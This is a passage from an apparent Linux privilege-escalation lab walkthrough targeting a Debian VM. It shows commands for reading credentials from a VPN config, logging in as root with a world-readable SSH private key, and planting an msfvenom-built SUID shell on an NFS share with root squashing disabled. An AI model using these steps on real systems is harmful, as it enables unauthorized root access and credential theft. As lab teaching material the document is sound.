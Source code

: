 ```
```cat /home/user/myvpn.ovpn ```

The file should contain a reference to another location where the root user's credentials can be found. Switch to the root user, using the credentials:

su root


## 17. Passwords & Keys - SSH Keys 

Sometimes users make backups of important files but fail to secure them with the correct permissions.

* Look for hidden files & directories in the system root:

```ls -la / ```

* Note that there appears to be a hidden directory called .ssh. View the contents of the directory:

```ls -l /.ssh ```

Note that there is a world-readable file called root_key. Further inspection of this file should indicate it is a private SSH key. The name of the file suggests it is for the root user.

* Copy the key over to your Kali box (it's easier to just view the contents of the root_key file and copy/paste the key) and give it the correct permissions, otherwise your SSH client will refuse to use it:

```chmod 600 root_key ```

* Use the key to login to the Debian VM as the root account (change the IP accordingly):

```ssh -i root_key root@10.10.10.10 ```

## 18.  NFS 

Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

* Check the NFS share configuration on the Debian VM:

```cat /etc/exports ```

* Note that the /tmp share has root squashing disabled.

* On your Kali box, switch to your root user if you are not already running as root:

```sudo su ```

* Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):

```
mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
```

* Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):

```msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf ```

* Still using Kali's root user, make the file executable and set the SUID permission:

```chmod +xs /tmp/nfs/shell.elf ```
```